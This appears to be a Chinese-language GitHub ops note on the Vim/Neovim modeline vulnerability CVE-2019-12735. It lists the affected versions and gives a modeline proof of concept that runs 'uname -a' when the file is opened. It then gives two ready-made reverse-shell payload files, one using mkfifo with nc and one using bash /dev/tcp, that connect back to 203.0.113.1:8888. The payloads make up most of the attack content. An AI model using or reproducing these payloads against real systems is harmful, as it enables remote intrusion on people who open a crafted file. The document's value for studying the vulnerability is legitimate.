



# VIM后门(CVE-2019-12735)

> GitHub 仓库源文件：[点击打开网页渲染版](https://github.com/ben2023niao/ben-ops-notes/blob/main/doc/md/202304141557-%E5%AE%89%E5%85%A8%E4%B8%8E%E5%A0%A1%E5%9E%92%E6%9C%BA%2B%E5%AE%89%E5%85%A8%E8%BF%90%E7%BB%B4%2BCVE%2BLinux-VIM%E5%90%8E%E9%97%A8%28CVE-2019-12735%29.md)

## vim modeline(CVE-2019-12735)

该漏洞存在于编辑器的 modeline功能，部分 Linux 发行版默认启用了该功能。 当 vim 打开一个包含了 vim modeline 注释行的文件时，会自动读取这一行的参数配置并调整自己的设置到这个配置。

vim默认关闭modeline。

**受影响版本**：Vim < 8.1.1365, Neovim < 0.3.6

**使用：**

首先在开启modeline:

```
vim ~/.vimrc
set modeline
```

然后我们创建个文件测试一下：

```
echo ':!uname -a||" vi:fen:fdm=expr:fde=assert_fails("source\!\ \%"):fdl=0:fdt="' > test.txt
```

```
vim test.txt
```

## 

可以看到成功执行了**uname -a**命令

现在我们创建反弹shell的文件：

shell.txt

```
:!rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 203.0.113.1 8888 >/tmp/f||" vi:fen:fdm=expr:fde=assert_fails("source\!\ \%"):fdl=0:fdt="
or
:!rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i >& /dev/tcp/203.0.113.1/8888 0>&1 >/tmp/f||" vi:fen:fdm=expr:fde=assert_fails("source\!\ \%"):fdl=0:fdt="
```

## 
